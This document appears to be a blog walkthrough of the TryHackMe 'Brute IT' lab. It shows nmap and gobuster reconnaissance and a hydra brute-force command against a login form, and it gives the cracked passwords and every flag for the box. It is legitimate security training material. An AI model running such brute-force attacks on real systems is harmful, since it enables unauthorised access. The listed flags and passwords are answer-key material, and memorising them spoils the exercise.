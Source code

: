 ```yaml
---
title: "Brute IT - TryHackMe"
author: Ludovic COULON
date: 2021-01-27
hero: ./images/hero.jpg
excerpt: "Learn how to brute, hash cracking and escalate privileges in this box!"
---
```


[TryHackMe | Brute IT](https://tryhackme.com/room/bruteit)

In this box you will learn about:

- Brute-force
- Hash cracking
- Privilege escalation

---

## Before attacking, let's get information about the target

### Search for open ports using nmap, how many ports are open?

```bash
Desktop/TryHackMe/brut_it » nmap -A -vv 10.10.93.226 -oN nmap_result
```

![./images/Untitled.png](./images/Untitled.png)

```bash
2 ports are open.
```

### What version of SSH is running?

```bash
OpenSSH 7.6p1
```

![./images/Untitled1.png](./images/Untitled1.png)

### What version of Apache is running?

```bash
2.4.29
```

![./images/Untitled2.png](./images/Untitled2.png)

### Which Linux distribution is running?

```bash
ubuntu
```

![./images/Untitled3.png](./images/Untitled3.png)

### Search for hidden directories on web server, what is the hidden directory?

```bash
Desktop/TryHackMe/brut_it » gobuster -u 10.10.93.226 -w /opt/directory-list-2.3-medium.txt
```

![./images/Untitled4.png](./images/Untitled4.png)

```bash
# Hidden directory 
/admin
```

---

## Find a form to get a shell on SSH.

### What is the user:password of the admin panel?

![./images/Untitled5.png](./images/Untitled5.png)

As you can see, there is the user and password in the form data, we can use this to brute-force the login with hydra.

Hidden message

![./images/Untitled6.png](./images/Untitled6.png)

```bash
# Hydra command (Pretty straightforward)
hydra -l admin -P /opt/rockyou.txt 10.10.93.226 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid"
```

![./images/Untitled7.png](./images/Untitled7.png)

```bash
# Credentials 
admin:xavier
```

### Crack the RSA key you found, what is John's RSA Private Key passphrase?

![./images/Untitled8.png](./images/Untitled8.png)

```bash
# Password for the private key is
rockinroll
```

### user.txt

```bash
THM{a_password_is_not_a_barrier}
```

![./images/Untitled9.png](./images/Untitled9.png)

### Web flag

![./images/Untitled10.png](./images/Untitled10.png)

```bash
THM{brut3_f0rce_is_e4sy}
```

---

### Find a form to escalate your privileges, what is the root's password?

```bash
# Password for the root user
football
```

![./images/Untitled11.png](./images/Untitled11.png)

### Root.txt

```bash
THM{pr1v1l3g3_3sc4l4t10n}
```

![./images/Untitled12.png](./images/Untitled12.png)

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://tryhackme-badges.s3.amazonaws.com/boperXD.png" alt="TryhackMeProfile" />
  </a>
</center>
